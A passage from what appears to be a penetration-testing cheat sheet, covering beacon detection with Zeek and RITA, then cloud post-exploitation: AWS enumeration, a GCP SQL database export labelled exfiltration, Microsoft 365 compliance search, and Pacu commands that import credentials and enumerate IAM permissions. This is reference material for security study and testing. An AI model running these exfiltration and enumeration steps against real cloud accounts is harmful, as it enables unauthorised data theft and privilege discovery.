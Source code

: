 ### Behavioral Detection

* Long-lived sessions
* Regular packet size/intervals (heartbeat)
* High skew consistency

### RITA Setup

```bash
zeek -Cr capture.pcap
rita import . mynetwork
rita html-report mynetwork
```

### DNS + Beaconing Analysis

```bash
rita show-long-connections -H mynetwork
rita show-exploded-dns mynetwork
```

---

## Cloud Post-Exploitation

### AWS Enumeration

```bash
aws sts get-caller-identity
aws ec2 describe-instances
aws s3 ls
```

### GCP SQL Exfiltration

```bash
gsutil mb gs://bucketname
gcloud sql export sql db --database dbname gs://bucketname/sqldump.gz
gsutil cp gs://bucketname/sqldump.gz .
```

### Microsoft 365 Compliance Search

* Search across Teams, Outlook, OneDrive, SharePoint for keywords
* Requires membership in eDiscovery Manager role

### Tools

* **Pacu**: Modular AWS exploitation tool

```bash
./cli.py
> import_keys creds
> run iam__enum_permissions
```

